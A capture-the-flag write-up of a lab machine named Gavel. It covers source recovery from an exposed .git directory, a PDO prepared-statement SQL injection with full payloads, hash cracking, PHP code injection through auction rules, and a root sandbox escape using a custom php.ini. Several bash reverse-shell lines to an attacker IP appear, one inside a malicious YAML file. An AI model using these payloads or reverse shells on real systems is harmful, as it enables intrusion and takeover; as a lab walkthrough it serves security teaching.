Gavel
Gavel was a medium-difficulty Linux machine that began with an nmap scan revealing SSH on port 22 and HTTP on port 80. The web application was an auction house platform where users could register, bid on items, and manage inventory. Directory fuzzing uncovered an exposed .git repository, which I dumped using git-dumper to obtain the full source code. Reviewing the source revealed that inventory.php constructed SQL queries using PDO prepared statements while concatenating user-controlled input, specifically the sort and user_id POST parameters. Crucially, the config had PDO emulated prepares enabled, making it vulnerable to a PDO parser confusion attack. By crafting a payload that caused PDO to misinterpret the query structure, I turned user_id into an unsanitized injection point and extracted credentials from the users table using CONCAT_WS with CHAR(58) to avoid quote and semicolon parsing issues. Cracking the auctioneer's hash with JtR and rockyou revealed the password midnight1.
Logging in as auctioneer granted access to an administrative panel for editing auction rules. Cross-referencing the source code showed that rule values were written into YAML files and later evaluated as PHP during bid processing. This allowed arbitrary PHP code execution by injecting a bash reverse shell into a rule field and triggering it by placing a bid, granting a foothold on the machine. Switching to the auctioneer user with their password revealed the user flag.
For privilege escalation, reversing two binaries gavel-util and gaveld in Ghidra revealed an IPC mechanism where gaveld, running as root, processed YAML submissions from gavel-util and evaluated their rule fields inside a PHP sandbox enforced via a restrictive php.ini.
The binary read the php.ini path from the RULE_PATH environment variable, defaulting to a hardcoded safe config if absent. By crafting a permissive php.ini with most dangerous functions re-enabled, setting RULE_PATH to point to it, and submitting a malicious YAML file containing a reverse shell as the rule value, the sandbox was bypassed and code executed as root.
User flag

Initial nmap scan reveals just 2 ports. SSH on 22 and HTTP on 80.
Checking out the website

It is a website for an auction house, and I can see some items right away. I'll make an account with the credentials of test:testtest

I don't have any items in my inventory yet, of course, so I'll check out the auctions.

Each auction has a specific rule to it. In addition to that, whatever I bid, even if I don't win the auction, will be lost. I'll have to be mindful of my balance(50k is the starting fund), so I will bid on just a single item for now.
In the inventory, I can sort either by name or quantity. The POST request sent to change the sorting contains user_id=2&sort=quantity, but trying to guess what might be happening under the hood blindly would be tedious. I will fuzz for directories and endpoints, my prime target being either git/gitea or an uncovered git branch that might reveal the source code. Otherwise, I will have to play with this blindly.
Directory fuzzing and investigating the source code

Bingo! There is an exposed git repo up for grabs, which I'll dump using gitdumper.
python git-dumper/git_dumper.py http://gavel.htb gitout

Looking at the inventory.php file reveals an interesting detail in the following snippet.
<?php
require_once __DIR__ . '/includes/config.php';
require_once __DIR__ . '/includes/db.php';
require_once __DIR__ . '/includes/session.php';
if (!isset($_SESSION['user'])) {
header('Location: index.php');
exit;
}
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
$itemMap = [];
$itemMeta = $pdo->prepare("SELECT name, description, image FROM items WHERE name = ?");
try {
if ($sortItem === 'quantity') {
$stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
$stmt->execute([$userId]);
} else {
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
$stmt->execute([$userId]);
<SNIP>
It is using PDO prepared statements to construct the queries, into which user-controlled input sort and user_id are concatenated. There is a cool attack involving the PDO parser, but before trying it, I will check whether PDO::ATTR_EMULATE_PREPARES is disabled in the config.

PDO emulates all prepared statements in MySQL by default, which means that these queries are indeed vulnerable to a PDO parser confusion attack.
PDO parser confusion attack
https://slcyber.io/research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/
Following the article above, I constructed a query that abuses both parameters. We want to have our SQLi payload located inside user_id, as it is not sanitized at all, unlike sort.
user_id=x`+FROM+(SELECT+table_name+AS+`%27x`+from+information_schema.tables)y;--+-&sort=\?--+-%00
After PDO is done with the query, it will look more or less like this: SELECT ? FROM inventory WHERE user_id = ?, effectively making user_id into an unsanitized SQLi injection point. Because of the first comment, I don't have to worry about the second question mark. Without comments, an error would be thrown because there is only one bound value, while there are 2 placeholders(?).

And here's what it looks like on the website itself.

Now, to extract actual data from the users table, I will use concat with a separator. This is because single quotes and semicolons will probably get swallowed by the parser in the process of preparing the query.
user_id=x`+FROM+(SELECT+CONCAT_WS(CHAR(58),+username,+password)+AS+`%27x`+from+users)y;--+-&sort=\?--+-%00
58 in ASCII = :
The same effect could be achieved by using normal concat, and just replacing the colon with its hex value 0x3a

I'll take the auctioneer hash for some cracking with JtR.
john hash -wordlist=/usr/share/wordlists/rockyou.txt

auctioneer | midnight1
These credentials don't work on SSH. I'll try logging into the website instead.
Command injection in the rule field

The auctioneer has access to the administrative panel, where they can edit rules and messages for auctions. I'll take a look at the source code of admin.php

Nothing interesting here. I will grep the source code for rule to see where else it appears.

The rule value is written into a specified .yaml file for a specified auction. From the default.yaml entries, it looks like PHP code can be written into the rule value.
Essentially, I can write whatever I want into a .yaml file, as long as it's valid PHP code. If something happens to run these PHP commands afterwards, I will get code execution!
system('bash -c "bash -i >& /dev/tcp/10.10.16.213/9001 0>&1"'); return true;
I saved the edit and bid on the modified auction(I set the message to "test", so that I would know which one it was).

The only user with a home directory was auctioneer, for which the earlier credential worked(midnight1) via su auctioneer. In their home directory, I found the user flag.

Root flag

Auctioneer cannot run anything with sudo... But they own a certain ELF file. Looking at the commands, it seems to accept YAML files... I'll get this binary onto my box so that I can take a better look at it.
timeout 5 cat < /dev/tcp/10.129.242.203/9002 > ~/HTB/Gavel/gavel-util | On attack box
nc -lnkvp 9002 > gavel-util | On target
In Ghidra, there isn't much to see apart from what I already know.

The malware tries to connect to a different bin, gaveld, which is worth exploring later on.

It also uses this collect_env function, suggesting it might be setting/collecting certain env variables. The function itself doesn't reveal much, though, only that it uses environ from GLIBC.
Analyzing the gaveld binary
Knowing its name, I quickly found the binary in question in /opt/gavel

And just like before, I'll chuck this bin into Ghidra for analysis.

The main function is responsible for initiating the socket, which works like an IPC pipe. It communicates with gavel-utils, looking for submissions, and for each entry it forks a process with a maximum of 16 queued processes. handle_conn handles each request created by gavel-util, be it either submit, invoice, or stats. The daemon is set up to be owned by root, but also accessible to the gavel-seller group, which auctioneer is a part of.
submit request is the most interesting one here, because eventually it will call the php_safe_ini function.

This function starts by grabbing a JSON object(most likely from the submit action), as well as the DAT_00105004 = env environmental variables. From the env, it picks out the RULE_PATH variable, and if it's missing, it will default to /opt/gavel/.config/php/php.ini instead.
Then, it constructs a PHP script more or less like this:
function __sandbox_eval() {
$previous_bid = 96;
$current_bid = 200;
$bidder = 'Shadow21A';
<USER CODE HERE>
};
$res = __sandbox_eval();
if(!is_bool($res)) {
echo 'SANDBOX_RETURN_ERROR';
}
else if ($res) {
echo 'ILLEGAL_RULE';
}
The user code must return a boolean, else it'll error out with ILLEGAL_RULE
It then generates a command /usr/bin/php -c /path/to/php.ini -d display_errors=1 -r "<generated php code>", before setting up a pipe and creating a child process with fork. The child ultimately executes the command containing user code and returns the output back to the parent, which scans it for PHP errors.
Knowing all this, I can sort of see a way forward. My main idea is to see how the php.ini config looks like and what is banned, and create/pass my own malicious one, which will be much less restrictive.
Escaping the sandbox for root code execution
# php.ini
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=Off
There are quite a lot of functions disabled. I'll leave a few I won't use as disabled, so that the value isn't blank.
# malphp.ini
engine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,eval
scan_dir=
allow_url_fopen=Off
allow_url_include=Off
Now I'll set the RULE_PATH envvar to /home/auctioneer/malphp.ini, so that gaveld will use my prepared config file instead of the safe one.
As for the .yaml file, the /opt/gavel directory contains an example like this:
# sample.yaml
---
item:
name: "Dragon's Feathered Hat"
description: "A flamboyant hat rumored to make dragons jealous."
image: "https://example.com/dragon_hat.png"
price: 10000
rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
Which I'll change a bit to accommodate command execution.
# malsample.yaml
name: "Dragon's Feathered Hat"
description: "A flamboyant hat rumored to make dragons jealous."
image: "https://example.com/dragon_hat.png"
price: 10000
rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item."
rule: "system('bash -c \"bash -i >& /dev/tcp/10.10.16.213/9001 0>&1\"'); return true;"
The second set of double quotes has to be escaped in order to avoid messing with the overarching ones. This way, they'll be treated as text and will be sent together with the whole revshell command.

Now I'll run gavel-util to submit my malicious .yaml file.
/usr/local/bin/gavel-util submit malsample.yaml

Rooted!